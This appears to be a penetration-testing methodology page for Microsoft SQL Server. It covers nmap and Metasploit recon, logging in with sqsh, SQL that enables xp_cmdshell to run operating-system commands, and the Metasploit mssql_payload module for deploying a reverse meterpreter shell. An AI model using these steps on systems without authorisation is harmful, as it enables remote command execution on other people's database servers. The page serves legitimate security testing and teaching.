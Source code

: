 # MSSQL - Methodology

### RECON

###### Basic recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.
```bash
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```     
The Metasploit mssql_ping module attempts to retrieve similar information:
```bash
msf > use auxiliary/scanner/mssql/mssql_ping
```

### EXPLOITATION


### POST EXPLOITATION

###### Access the database

The sqsh CLI tool can be used to make queries to the database:
```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The DBeaver GUI tool can be used to simply access the database content without
knowing the proper MSSQL syntax.

###### OS command execution
On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):
```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```
Operating system CMD commands can then be executed:
```SQL
EXEC xp_cmdshell '<CMD>'
go  
```
The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server:
```bash
msf > use exploit/windows/mssql/mssql_payload
```
